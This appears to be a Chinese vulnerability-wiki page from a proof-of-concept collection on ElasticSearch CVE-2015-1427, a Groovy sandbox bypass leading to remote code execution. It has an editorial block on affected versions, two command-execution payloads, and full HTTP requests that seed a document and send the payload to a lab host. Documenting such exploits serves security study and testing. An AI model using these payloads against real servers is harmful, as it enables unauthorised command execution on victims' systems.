

# ElasticSearch Groovy 沙盒绕过 & 代码执行漏洞 CVE-2015-1427

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：可访问脚本查询、动态Groovy启用且匹配数据；演示主动插入文档
- 证据范围：两种gadget策略是同一漏洞分析，不拆成两个漏洞；MVEL3120为历史背景。

### 已有来源支持的更正

- 原厂维护者确认影响1.3.0–.7和1.4.0–.2，1.3.8/1.4.3关闭动态Groovy

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 只列测试1.4.2，缺完整1.3.0–.7及1.4.0–.2范围和修复1.3.8/1.4.3
- JSON请求使用form/text类型与固定Content-Length，不宜原样复制
- 没有插入文档清理说明，Goovy拼写错误

### 核验来源

- https://github.com/elastic/elasticsearch/issues/9655

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过； 2.是一个Goovy代码执行漏洞。

参考阅读：

- http://cb.drops.wiki/drops/papers-5107.html
- http://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/
- https://github.com/XiphosResearch/exploits
- http://cb.drops.wiki/drops/papers-5142.html

**Groovy语言“沙盒”**

ElasticSearch支持使用“在沙盒中的”Groovy语言作为动态脚本，但显然官方的工作并没有做好。lupin和tang3分别提出了两种执行命令的方法：

1. 既然对执行Java代码有沙盒，lupin的方法是想办法绕过沙盒，比如使用Java反射
2. Groovy原本也是一门语言，于是tang3另辟蹊径，使用Groovy语言支持的方法，来直接执行命令，无需使用Java语言

所以，根据这两种执行漏洞的思路，我们可以获得两个不同的POC。

Java沙盒绕过法：

```
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

Goovy直接执行命令法：

```python
def command='id';def res=command.execute().text;res
```

## 漏洞复现

jre版本：openjdk:8-jre

elasticsearch版本：v1.4.2

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

```http
POST /website/blog/ HTTP/1.1
Host: 192.168.44.132:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```

然后发送包含payload的数据包，执行任意命令：

```http
POST /_search?pretty HTTP/1.1
Host: 192.168.44.132:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

结果如图所示：




---

> 来源：Threekiii/Awesome-POC
